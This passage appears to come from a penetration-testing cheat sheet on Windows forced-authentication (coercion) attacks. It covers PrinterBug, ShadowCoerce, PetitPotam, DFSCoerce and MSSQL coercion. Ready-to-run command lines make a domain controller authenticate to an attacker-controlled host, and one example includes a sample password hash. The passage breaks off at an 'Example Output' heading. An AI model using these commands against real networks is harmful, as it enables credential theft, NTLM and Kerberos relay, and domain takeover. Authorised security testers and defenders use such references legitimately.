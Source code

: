 					python printerbug.py <domain>.<tld>/<user>@<target>.<domain>.<tld> <attacker ip/hostname>
		* MS-FSRVP
			* <details><summary>Overview (Click to expand)</summary><p>
				* May require running multiple times to succeed if service has not been run in a while.
				* May not be chainable with webclient abuse, unlike petitpotam
				* Topotam announced the flaw
				* "Unlikely that MS-FSRVP abuse can be combined with WebClient abuse"
			* <details><summary>Recommended: ShadowCoerce (Click to expand) -<br />[https://github.com/ShutdownRepo/ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce)</summary><p>
				* Usage

						shadowcoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
		* MS-EFSRPC ("PetitPotam")
			* <details><summary>References (Click to expand)</summary><p>
				* [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-43217]
			* <details><summary>Recommended: ly4k (fka Ollypwn) PetitPotam ([GitHub](https://github.com/ly4k/PetitPotam)) (Click to expand)</summary><p>
				
					python3 petitpotam.py -debug -method AddUsersToFile '<DC IP>' '\\<attacker_IP or attacker_hostname>\<fake_sharename>\<anything>'
				* DC needs to think you're part of the internal network, so you may need to use the attacker's NETBIOS name or such
				* `-method` is optional; default is random; specific options in TTP
				* `-` optional
				* `-debug` optional
			* <details><summary>Topotam PetitPotam ([GitHub](https://github.com/topotam/PetitPotam)) (Click to expand)</summary><p>
				* Currently (2021.10.14), the patch causes authentication from the DC in the user context specified by the script. This could be useful, but you may need to use your imagination or just try other attacks.
		* MS-DFSNM
			* <details><summary>References (Click to expand)</summary><p>
				* [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)
			* <details><summary>Recommended: DFSCoerce -<br />[https://github.com/Wh04m1001/DFSCoerce](https://github.com/Wh04m1001/DFSCoerce) (Click to expand)</summary><p>

					.
	* Abuse MS-SQL
		* MSSQL Analysis Corece -<br />[https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

## Kerberos-Specific Forced Authentication

* Force Kerberos Authentication (Necessary for Kerberos Relay attacks)
	* <details><summary>krbrelayx's printerbug.py (Click to expand)</summary><p>

			(krbrelayx) root@jack-Virtual-Machine:~/krbrelayx# python printerbug.py 'microsoftdelivery.com/CA$@dc01.microsoftdelivery.com' -hashes aad3b435b51404eeaad3b435b51404ee:fcbf81ccf4c8b21fa343ca3fbcbf2ff1 attacker1.microsoftdelivery.com
		* Example uses a AES256 key for authentication
		* Example Output
